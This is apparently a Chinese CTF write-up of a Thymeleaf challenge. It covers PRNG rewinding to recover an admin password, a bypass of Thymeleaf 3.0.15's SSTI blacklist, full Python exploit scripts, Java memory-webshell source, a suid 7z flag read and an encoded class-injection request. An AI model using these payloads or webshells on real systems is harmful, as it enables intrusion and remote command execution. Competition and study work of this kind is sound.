






+++
title= "软件安全赛2026"
slug= "software-sec-competition-2026"
description= ""
date= "2026-04-01T10:08:46+08:00"
lastmod= "2026-04-01T10:08:46+08:00"
image= ""
license= ""
categories= ["CTF"]
tags= [""]

+++

## TL;DR

这次比赛的感觉就是题目挺难的，如果真正不看笔记不用 AI 是真打不了，已经闻到了失败的味道。

------

本来不打算发博客的，包括有些师傅来问了也不打算发的，不过 thymeleaf 这道题的分块传输打入内存马确实挺有意思 🤔

## thymeleaf



目录结构是这样，

```java
package com.ctf.prng.config;

import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.security.config.annotation.web.builders.HttpSecurity;
import org.springframework.security.config.annotation.web.configuration.EnableWebSecurity;
import org.springframework.security.web.SecurityFilterChain;

/* JADX INFO: loaded from: prng-ctf-1.0.0.jar:BOOT-INF/classes/com/ctf/prng/config/SecurityConfig.class */
@Configuration
@EnableWebSecurity
public class SecurityConfig {
    @Bean
    public SecurityFilterChain securityFilterChain(HttpSecurity http) throws Exception {
        http.authorizeHttpRequests(authz -> {
            authz.anyRequest().permitAll();
        }).formLogin(form -> {
            form.disable();
        }).logout(logout -> {
            logout.disable();
        }).csrf(csrf -> {
            csrf.disable();
        });
        return http.build();
    }
}
```

这个配置是完全无防护的，接着看用户初始化逻辑，看看能否越权

```java
package com.ctf.prng.service;

import com.ctf.prng.model.User;
import com.ctf.prng.repository.UserRepository;
import java.security.SecureRandom;
import javax.annotation.PostConstruct;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.security.crypto.bcrypt.BCryptPasswordEncoder;
import org.springframework.security.crypto.password.PasswordEncoder;
import org.springframework.stereotype.Service;

/* JADX INFO: loaded from: prng-ctf-1.0.0.jar:BOOT-INF/classes/com/ctf/prng/service/RandomService.class */
@Service
public class RandomService {
    private final PseudoRandomGenerator prng;
    private final UserRepository userRepository;
    private final PasswordEncoder passwordEncoder = new BCryptPasswordEncoder();
    private long adminPassword;
    private final long seed;

    @Autowired
    public RandomService(UserRepository userRepository) {
        this.userRepository = userRepository;
        SecureRandom random = new SecureRandom();
        long rawSeed = (((long) random.nextInt()) << 32) | (((long) random.nextInt()) & 4294967295L);
        this.seed = rawSeed & 281474976710655L;
        this.prng = new PseudoRandomGenerator(this.seed);
        for (int i = 0; i < 9; i++) {
            this.prng.next();
        }
        this.adminPassword = this.prng.next();
    }

    @PostConstruct
    public void initAdminUser() {
        this.userRepository.deleteAll();
        String plainPassword = String.format("%016d", Long.valueOf(this.adminPassword % 10000000000000000L));
        String hashedPassword = this.passwordEncoder.encode(plainPassword);
        User admin = new User("admin", hashedPassword, "ADMIN");
        this.userRepository.save(admin);
        for (int i = 1; i <= 5; i++) {
            String username = "user" + i;
            long userPlainPassword = this.prng.next();
            String userPasswordStr = String.format("%016d", Long.valueOf(userPlainPassword % 10000000000000000L));
            String userHashedPassword = this.passwordEncoder.encode(userPasswordStr);
            User user = new User(username, userHashedPassword, "USER");
            this.userRepository.save(user);
        }
    }

    public long nextRandom() {
        return this.prng.next();
    }

    public long getCurrentState() {
        return this.prng.getState();
    }

    public long getAdminPassword() {
        return this.adminPassword;
    }

    public long getSeed() {
        return this.seed;
    }

    public boolean matches(String plainPassword, String hashedPassword) {
        return this.passwordEncoder.matches(plainPassword, hashedPassword);
    }

    public String encodePassword(String plainPassword) {
        return this.passwordEncoder.encode(plainPassword);
    }
}
```

系统启动时，生成了一个 48 位的种子，并初始化 PseudoRandomGenerator，接着循环了 9 次，把前 9 个状态丢弃，第 10 次调用`prng.next()`的结果被赋值给了`adminPassword`，然后再创建五个测试用户，那么当我再注册一个新账号的时候，会返回一个 plainPassword，就是系统的第 16 次 PRNG 状态。看下 admin 的密码生成逻辑`PseudoRandomGenerator`方法

```java
package com.ctf.prng.service;

/* JADX INFO: loaded from: prng-ctf-1.0.0.jar:BOOT-INF/classes/com/ctf/prng/service/PseudoRandomGenerator.class */
public class PseudoRandomGenerator {
    private long state;
    private static final long MASK = 281474976710655L;
    private static final int BITLEN = 48;

    public PseudoRandomGenerator(long seed) {
        this.state = seed & MASK;
        if (this.state == 0) {
            this.state = 190085268090081L;
        }
    }

    public long next() {
        long feedback = ((((this.state >> 47) ^ (this.state >> 46)) ^ (this.state >> 43)) ^ (this.state >> 42)) & 1;
        this.state = ((this.state >> 1) | (feedback << 47)) & MASK;
        return this.state;
    }

    public long getState() {
        return this.state;
    }

    public void setState(long state) {
        this.state = state & MASK;
    }

    public int nextInt(int min, int max) {
        if (min >= max) {
            return min;
        }
        long range = (((long) max) - ((long) min)) + 1;
        long value = next() % range;
        return (int) (((long) min) + value);
    }
}
```

计算下一个状态的公式为向右移位`this.state = ((this.state >> 1) | (feedback << 47)) & MASK`。这里有两个问题，向右移位 1 位，意味着当前状态的最右侧一位（即第 0 位，最低位）被直接丢弃，并未`feedback`位的计算只用到了第 47、46、43、42 位，完全没有用到被丢弃的第 0 位。

那么每往回倒推 1 步，就会产生 1 个未知的最低位，即多出 2 种可能性。刚才说了我们拿到的是第十六步，现在要预测第十步，所以是 2^6，也就是六十四种可能性，拿到候选密码之后直接进行 fuzz 即可

接着看了看控制器，没什么特别的，就是注册以及登录检验，并且在成功到后台之后可以用`section`进行模板注入



先进行 admin 密码的预测

```python
#!/usr/bin/env python3
import argparse
import random
import re
import string
import sys
from typing import Set

import requests


def gen_username() -> str:
    alphabet = string.ascii_lowercase + string.digits
    return "u" + "".join(random.choice(alphabet) for _ in range(7))


def recover_candidates(observed_password: int, steps_back: int) -> Set[str]:
    states = {observed_password}
    for _ in range(steps_back):
        nxt = set()
        for s in states:
            base = ((s & ((1 << 47) - 1)) << 1)
            nxt.add(base)
            nxt.add(base | 1)
        states = nxt
    return {f"{s:016d}" for s in states}


def extract_password(html: str) -> str:
    m = re.search(r"\b(\d{16})\b", html)
    if not m:
        raise RuntimeError("failed to extract generated password from register page")
    return m.group(1)


def verify_admin(session: requests.Session, base: str) -> bool:
    r = session.get(base + "/", timeout=10)
    return r.ok and ("欢迎回来，<strong>admin</strong>" in r.text or "系统管理员" in r.text)


def try_login(session: requests.Session, base: str, password: str) -> bool:
    r = session.post(
        base + "/dologin",
        data={"username": "admin", "password": password},
        allow_redirects=False,
        timeout=10,
    )
    if r.status_code not in (302, 303):
        return False
    location = r.headers.get("Location", "")
    if not location:
        return False
    return verify_admin(session, base)


def format_cookies(session: requests.Session) -> str:
    return "; ".join(f"{c.name}={c.value}" for c in session.cookies)


def exploit(base: str, min_back: int, max_back: int) -> int:
    base = base.rstrip("/")
    session = requests.Session()

    username = gen_username()
    r = session.post(base + "/register", data={"username": username}, timeout=10)
    if not r.ok:
        print(f"[-] register failed: HTTP {r.status_code}", file=sys.stderr)
        return 1

    observed = extract_password(r.text)
    print(f"[+] registered username: {username}")
    print(f"[+] observed user password: {observed}")
    print(f"[+] rewind range: {min_back}..{max_back}")

    tried = 0
    for steps in range(min_back, max_back + 1):
        candidates = sorted(recover_candidates(int(observed), steps))
        print(f"[*] steps_back={steps}, candidate_count={len(candidates)}")
        for candidate in candidates:
            tried += 1
            if try_login(session, base, candidate):
                print(f"[+] admin password: {candidate}")
                print(f"[+] cookie: {format_cookies(session)}")
                print(f"[+] total attempts: {tried}")
                return 0

    print("[-] admin login failed", file=sys.stderr)
    return 2


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Recover the admin password by rewinding the PRNG.")
    parser.add_argument("base", nargs="?", default="http://127.0.0.1:8080", help="target base URL")
    parser.add_argument("--min-back", type=int, default=6, help="minimum rewind steps")
    parser.add_argument("--max-back", type=int, default=12, help="maximum rewind steps")
    args = parser.parse_args()
    raise SystemExit(exploit(args.base, args.min_back, args.max_back))
```



看到是 3.0.15 版本，想起 QWB final 的一道题目，当时 QWB 的若依我是打了的，所以一下就想起来了，最后队友找到了这篇文章，https://www.freebuf.com/articles/vuls/458986.html 不过这里我们不看文章自己分析下，找到`thymeleaf-spring5-3.0.15.RELEASE-sources.jar`，在 SpringRequestUtils.java中，发现增加了黑名单

```java
package org.thymeleaf.spring5.util;

import java.util.Enumeration;
import javax.servlet.http.HttpServletRequest;
import org.thymeleaf.exceptions.TemplateProcessingException;
import org.thymeleaf.util.StringUtils;
import org.unbescape.uri.UriEscape;

/* JADX INFO: loaded from: prng-ctf-1.0.0.jar:BOOT-INF/lib/thymeleaf-spring5-3.0.15.RELEASE.jar:org/thymeleaf/spring5/util/SpringRequestUtils.class */
public final class SpringRequestUtils {
    public static void checkViewNameNotInRequest(String viewName, HttpServletRequest request) {
        String vn = StringUtils.pack(viewName);
        if (!containsExpression(vn)) {
            return;
        }
        boolean found = false;
        String requestURI = StringUtils.pack(UriEscape.unescapeUriPath(request.getRequestURI()));
        if (requestURI != null && containsExpression(requestURI)) {
            found = true;
        }
        if (!found) {
            Enumeration<String> paramNames = request.getParameterNames();
            while (!found && paramNames.hasMoreElements()) {
                String[] paramValues = request.getParameterValues(paramNames.nextElement());
                for (int i = 0; !found && i < paramValues.length; i++) {
                    String paramValue = StringUtils.pack(paramValues[i]);
                    if (paramValue != null && containsExpression(paramValue) && vn.contains(paramValue)) {
                        found = true;
                    }
                }
            }
        }
        if (found) {
            throw new TemplateProcessingException("View name contains an expression and so does either the URL path or one of the request parameters. This is forbidden in order to reduce the possibilities that direct user input is executed as a part of the view name.");
        }
    }

    private static boolean containsExpression(String text) {
        int textLen = text.length();
        boolean expInit = false;
        for (int i = 0; i < textLen; i++) {
            char c = text.charAt(i);
            if (!expInit) {
                if (c == '$' || c == '*' || c == '#' || c == '@' || c == '~') {
                    expInit = true;
                }
            } else {
                if (c == '{') {
                    return true;
                }
                if (!Character.isWhitespace(c)) {
                    expInit = false;
                }
            }
        }
        return false;
    }

    private SpringRequestUtils() {
    }
}
```

新增了 `containsExpression()`，会检查 `${`、`*{`、`#{`、`@{`、`~{`，`$${...}` 这种结构能绕过检测，接着看`SpringStandardExpressionUtils.containsSpELInstantiationOrStaticOrParam`

```java
package org.thymeleaf.spring5.util;

/* JADX INFO: loaded from: prng-ctf-1.0.0.jar:BOOT-INF/lib/thymeleaf-spring5-3.0.15.RELEASE.jar:org/thymeleaf/spring5/util/SpringStandardExpressionUtils.class */
public final class SpringStandardExpressionUtils {
    private static final char[] NEW_ARRAY = "wen".toCharArray();
    private static final int NEW_LEN = NEW_ARRAY.length;
    private static final char[] PARAM_ARRAY = "marap".toCharArray();
    private static final int PARAM_LEN = PARAM_ARRAY.length;

    public static boolean containsSpELInstantiationOrStaticOrParam(String expression) {
        int explen = expression.length();
        int n = explen;
        int ni = 0;
        int pi = 0;
        while (true) {
            int i = n;
            n--;
            if (i != 0) {
                char c = expression.charAt(n);
                if (ni < NEW_LEN && c == NEW_ARRAY[ni] && (ni > 0 || (n + 1 < explen && Character.isWhitespace(expression.charAt(n + 1))))) {
                    ni++;
                    if (ni == NEW_LEN && (n == 0 || !isSafeIdentifierChar(expression.charAt(n - 1)))) {
                        return true;
                    }
                } else if (ni > 0) {
                    n += ni;
                    ni = 0;
                } else {
                    ni = 0;
                    if (pi < PARAM_LEN && c == PARAM_ARRAY[pi] && (pi > 0 || (n + 1 < explen && !isSafeIdentifierChar(expression.charAt(n + 1))))) {
                        pi++;
                        if (pi == PARAM_LEN && (n == 0 || !isSafeIdentifierChar(expression.charAt(n - 1)))) {
                            return true;
                        }
                    } else if (pi > 0) {
                        n += pi;
                        pi = 0;
                    } else {
                        pi = 0;
                        if (c == '(' && n - 1 >= 0 && isPreviousStaticMarker(expression, n)) {
                            return true;
                        }
                    }
                }
            } else {
                return false;
            }
        }
    }

    private static boolean isPreviousStaticMarker(String expression, int idx) {
        char c;
        int n = idx;
        do {
            int i = n;
            n--;
            if (i != 0) {
                c = expression.charAt(n);
                if (c == 'T') {
                    if (n == 0) {
                        return true;
                    }
                    char c1 = expression.charAt(n - 1);
                    return !isSafeIdentifierChar(c1);
                }
            } else {
                return false;
            }
        } while (Character.isWhitespace(c));
        return false;
    }

    private static boolean isSafeIdentifierChar(char c) {
        return (c >= 'A' && c <= 'Z') || (c >= 'a' && c <= 'z') || ((c >= '0' && c <= '9') || c == '_');
    }

    private SpringStandardExpressionUtils() {
    }
}
```

由于他的匹配扫描是从后往前的，所以他主要是拦截三类表达式

```java
new
T(...)
param
```

Thymeleaf 的`|...|`是字面量替换，这里简单的测试下

```bash
__|$${#response.getWriter().print('111')}|__::.x
```



如果要执行命令的话，我们需要考虑 jdk 版本，remote 为 17，反射基本不能成功，

先进行一个初步探测

```bash
__|$${#response.getWriter().print(@homeController.getClass().getName())}|__::.x

__|$${#response.getWriter().print(@requestMappingHandlerMapping.getApplicationContext().getWebServer().getClass().getName())}|__::.x
```

发现是`org.springframework.boot.web.embedded.tomcat.TomcatWebServer`，需要注入内存马，那么考虑分步写入然后再打 defineClass，这里 AI 大人直接给我了一个 exp

两个木马分别是Spring Echo

```java
package org.springframework.expression;

import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;

public class E {
    static {
        try {
            ServletRequestAttributes attrs =
                (ServletRequestAttributes) RequestContextHolder.getRequestAttributes();
            if (attrs != null && attrs.getResponse() != null) {
                String cmd = attrs.getRequest().getHeader("X-Cmd");
                if (cmd == null || cmd.isEmpty()) {
                    cmd = attrs.getRequest().getParameter("cmd");
                }
                if (cmd != null && !cmd.isEmpty()) {
                    Process p = Runtime.getRuntime().exec(new String[] {"sh", "-c", cmd});
                    byte[] out = p.getInputStream().readAllBytes();
                    if (out.length == 0) {
                        out = p.getErrorStream().readAllBytes();
                    }
                    attrs.getResponse().getWriter().write(new String(out));
                    attrs.getResponse().getWriter().flush();
                }
            }
        } catch (Throwable ignored) {
        }
    }
}
//Memory Webshell
```

Spring Controller

```java
package org.springframework.expression;

import java.lang.reflect.Method;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.context.support.WebApplicationContextUtils;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

public class M {
    static {
        try {
            ServletRequestAttributes attrs =
                (ServletRequestAttributes) RequestContextHolder.getRequestAttributes();
            if (attrs != null) {
                WebApplicationContext ctx =
                    WebApplicationContextUtils.getWebApplicationContext(
                        attrs.getRequest().getServletContext());
                if (ctx != null) {
                    RequestMappingHandlerMapping mapping =
                        ctx.getBean(RequestMappingHandlerMapping.class);
                    RequestMappingInfo info = RequestMappingInfo.paths("/m")
                        .options(mapping.getBuilderConfiguration())
                        .build();
                    Method method = M.class.getDeclaredMethod(
                        "x", HttpServletRequest.class, HttpServletResponse.class);
                    try {
                        mapping.registerMapping(info, new M(), method);
                    } catch (IllegalStateException ignored) {
                    }
                }
            }
        } catch (Throwable ignored) {
        }
    }

    public void x(HttpServletRequest req, HttpServletResponse resp) throws Exception {
        String cmd = req.getHeader("X-Cmd");
        if (cmd == null || cmd.isEmpty()) {
            cmd = req.getParameter("cmd");
        }
        if (cmd == null || cmd.isEmpty()) {
            return;
        }
        Process p = Runtime.getRuntime().exec(new String[] {"sh", "-c", cmd});
        byte[] out = p.getInputStream().readAllBytes();
        if (out.length == 0) {
            out = p.getErrorStream().readAllBytes();
        }
        resp.getWriter().write(new String(out));
        resp.getWriter().flush();
    }
}
```

两个木马文件就位之后

```python
#!/usr/bin/env python3
import argparse
import random
import re
import string
import sys
import urllib.parse
from typing import Set

import requests


def gen_username() -> str:
    alphabet = string.ascii_lowercase + string.digits
    return "u" + "".join(random.choice(alphabet) for _ in range(7))


def recover_candidates(observed_password: int, steps_back: int) -> Set[str]:
    states = {observed_password}
    for _ in range(steps_back):
        nxt = set()
        for s in states:
            base = ((s & ((1 << 47) - 1)) << 1)
            nxt.add(base)
            nxt.add(base | 1)
        states = nxt
    return {f"{s:016d}" for s in states}


def extract_password(html: str) -> str:
    m = re.search(r"\b(\d{16})\b", html)
    if not m:
        raise RuntimeError("failed to extract generated password from register page")
    return m.group(1)


def verify_admin(session: requests.Session, base: str) -> bool:
    r = session.get(base + "/", timeout=10)
    return r.ok and ("欢迎回来，<strong>admin</strong>" in r.text or "系统管理员" in r.text)


def try_login(session: requests.Session, base: str, password: str) -> bool:
    r = session.post(
        base + "/dologin",
        data={"username": "admin", "password": password},
        allow_redirects=False,
        timeout=10,
    )
    if r.status_code not in (302, 303):
        return False
    location = r.headers.get("Location", "")
    if not location:
        return False
    return verify_admin(session, base)


def format_cookies(session: requests.Session) -> str:
    return "; ".join(f"{c.name}={c.value}" for c in session.cookies)


def build_rce_payload(command: str) -> str:
    if "'" in command:
        raise ValueError("command cannot contain a single quote")
    inner = (
        "''.getClass().forName('java.lang.Runtime').getRuntime().exec("
        f"'{command}'"
        ").getClass()"
    )
    expr = (
        "#response.getWriter().print("
        "new.org.springframework.expression.spel.standard.SpelExpressionParser()"
        f'.parseExpression("{inner}").getValue())'
    )
    return f"__|$${{{expr}}}|__::.x"


def trigger_rce(session: requests.Session, base: str, command: str) -> requests.Response:
    payload = build_rce_payload(command)
    url = base + "/admin?section=" + urllib.parse.quote(payload, safe="")
    return session.get(url, timeout=10)


def exploit(base: str, min_back: int, max_back: int, command: str | None) -> int:
    base = base.rstrip("/")
    session = requests.Session()

    username = gen_username()
    r = session.post(base + "/register", data={"username": username}, timeout=10)
    if not r.ok:
        print(f"[-] register failed: HTTP {r.status_code}", file=sys.stderr)
        return 1

    observed = extract_password(r.text)
    print(f"[+] registered username: {username}")
    print(f"[+] observed user password: {observed}")
    print(f"[+] rewind range: {min_back}..{max_back}")

    tried = 0
    for steps in range(min_back, max_back + 1):
        candidates = sorted(recover_candidates(int(observed), steps))
        print(f"[*] steps_back={steps}, candidate_count={len(candidates)}")
        for candidate in candidates:
            tried += 1
            if try_login(session, base, candidate):
                print(f"[+] admin password: {candidate}")
                print(f"[+] cookie: {format_cookies(session)}")
                print(f"[+] total attempts: {tried}")
                if command:
                    r = trigger_rce(session, base, command)
                    print(f"[+] rce status: {r.status_code}")
                    print(f"[+] rce body: {r.text[:200]}")
                return 0

    print("[-] admin login failed", file=sys.stderr)
    return 2


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Recover the admin password by rewinding the PRNG.")
    parser.add_argument("base", nargs="?", default="http://127.0.0.1:8080", help="target base URL")
    parser.add_argument("--min-back", type=int, default=6, help="minimum rewind steps")
    parser.add_argument("--max-back", type=int, default=12, help="maximum rewind steps")
    parser.add_argument(
        "--cmd",
        help="optional command to execute via the Thymeleaf SSTI after admin login; avoid single quotes",
    )
    args = parser.parse_args()
    raise SystemExit(exploit(args.base, args.min_back, args.max_back, args.cmd))


# python3 rce.py http://127.0.0.1:8080 --mode echo --cmd 'echo unix-ok'


# python3 rce.py http://127.0.0.1:8080 --mode memshell --cmd 'echo mem-unix-ok'
```



绕过之后最后还需要 suid 处理下，这里用的 7z

```java
/usr/bin/7z a -ttar -an -so /flag 2>/dev/null | /bin/tar -xOf - 2>/dev/null
```

但是其实这道题最巧秒的是这个分块传输触发，这在 RW 中也非常常见，但其实实不相瞒，在我自己测试的时候我还没开始自己写马，使用的 Java-chains 生成🐎，结果一直不成功，为了定位 Java-chains 生成类到底卡在哪里，本地又做了两组对照：

1. 长随机类名
   `org.apache.shiro.coyote.ser.impl.PropertyBasedObjectIdGenerator5b5fb76059c04d518b02f73bf390ac56`
2. 短类名
   `org.springframework.expression.A`

结果：

1. 长类名：`stage 200`，`final 500`
2. 短类名：`stage 200`，`final 200`

这说明真正的问题不是命令内容，而是这条 Thymeleaf sink 对最终`defineClass('超长类名', ...)`非常敏感。打入

```http
GET /admin?section=%5F%5F%7C%24%24%7Bnew%2Eorg%2Espringframework%2Eexpression%2Espel%2Estandard%2ESpelExpressionParser%28%29%2EparseExpression%28%22%27%27%2EgetClass%28%29%2EforName%28%27java%2Elang%2ESystem%27%29%2EsetProperty%28%27part1%27%2C%27H4sIAKncy2kC%2F21S2XISQRQ9DUNmIIPiZMPEhbggEMnEuEtMVMo33GqspNCnZmjJJGQGZzpC3v0JvyDPCVXBMqUf4DdZ6h2SEqnkpW%2Ffpe85597%2B%2BfvbDwCLeMKQ8fyGGbR8x2188PmWaHv%2Bpik6LV8EgeO55lMVjCG1wT9xs8ndhvmqtiFsqSLKoNR4IBiMyiBrybBTiSEaiBad9ladYWTJcR25TG4uv8owNih%2F3rFFSxKOilEdcSQSUJBkUL1g3iU2Gs4OgVs7gRRbKs4xjDaEfO17LeHLHYZs7iSJ%2FMmQjjGMJ2BgYrhtP6tiitpKr%2BK1hV%2FuSxvPndrkPKYTSGOGFLUdV8NFBs32XMkdN2CY%2BZ9LeZ37lvi4LVxblPLvdFxGJnw7SyJpOPOiQyKv6ohhJI4IrjNETFvDDR3qUSRPhWbNcc1gXcMcpYuULurQjtImQ3qARgOxaXHPtp1mXfgqbjFM5t6fMprVcNq3E%2FQH7jDEAsl9yTAxpPa4F8m9h%2Fth5QNSuWQ3j3dp0OjdTJFnyrxpbze59HwNpQRRov0pZa9O40taktubL3jrLa81BWYpqdDHixI26aVbPFTZt1rfRsDCX0DnMnmfqTpC1ir0cMZIfcXkAS4Ylw5w5QtSxrUuskaui8IuksbN0JknZ%2BQ70tXoPrJWVdlHwarG9rFgVQ6xWJ3r4e4BHq7tQqnsEYSCl3gDnW4rBDIF5Q8xZGoIGRcq9F8gdgoxe%2FSP0XSfD4jNUhcLh4hUe3i8tteP4S9BCg%2FfVwMAAA%3D%3D%27%29%22%29%2EgetValue%28%29%7D%7C%5F%5F%3A%3A%2Ex HTTP/1.1
